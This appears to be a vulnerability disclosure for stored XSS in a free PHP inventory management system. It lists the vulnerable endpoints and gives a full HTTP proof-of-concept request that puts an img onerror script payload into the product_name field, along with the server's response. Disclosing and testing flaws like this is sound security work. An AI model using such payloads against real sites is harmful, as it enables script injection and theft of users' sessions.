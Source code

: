﻿
**Exploit Title:** Free and Open Source inventory management system php - Multiple Stored XSS 
**Date**: 4/08/2023
**Exploit Author:** y3thu
**Vendor Homepage:** https://www.sourcecodester.com/users/mayurik
**Software Link:** https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html
**Attack Vector:** WEB, Network
**Testeted on:** Windows 10  using XAMPP
Request
**Authenticated stored XSS**
**Vulnerable Endpoints:** `/index.php?page=add_expense ,/index.php?page=add_product,/index.php?page=add_stuff, ...`
**Affected endpoints:** `/index.php?page=sell_list,/index.php?page=buy_list,/index.php?page=product_list,/index.php?page=exspense_list,/index.php?page=staff_list,/index.php?page=dashboard,/index.php?page=category`
![image](https://github.com/yethu123/XSS-and-SQL-Injection-on-Free-and-Open-Source-inventory-management-system/assets/29069905/3e20f2be-5083-4e59-9530-7ae4b4f7dcfc)

**POC**

    POST /ample/app/action/add_product.php HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 132
    Origin: http://localhost
    Connection: close
    Referer: http://localhost/ample/index.php?page=add_product
    Cookie: PHPSESSID=g11ukg4bi8dvr9q9uqvsslpm3t
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    
    product_name=%3Cimg+src%3Dx+onerror%3Dprompt(document.domain)%3E&brand=test&p_catagory=2&product_source=buy&sku=aaa&alert_quantity=3


Response

    HTTP/1.1 200 OK
    Date: Fri, 04 Aug 2023 08:52:04 GMT
    Server: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/7.4.30
    X-Powered-By: PHP/7.4.30
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Content-Length: 3
    Connection: close
    Content-Type: text/html; charset=UTF-8
    
    yes

![image](https://github.com/yethu123/XSS-and-SQL-Injection-on-Free-and-Open-Source-inventory-management-system/assets/29069905/a583971a-9c90-4caf-aeb9-b96c4189996d)
